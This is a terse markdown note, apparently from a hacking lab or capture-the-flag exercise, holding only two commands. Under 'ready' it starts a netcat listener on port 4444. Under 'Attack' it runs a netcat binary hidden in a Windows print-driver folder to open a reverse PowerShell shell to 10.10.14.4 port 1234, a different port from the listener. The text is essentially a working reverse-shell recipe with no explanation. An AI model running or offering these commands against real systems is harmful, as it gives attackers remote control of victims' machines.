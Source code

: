 ## ready
`nc -lvnp 4444`
## Attack
`cmd /c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.14.4 1234 -e powershell.exe --v`
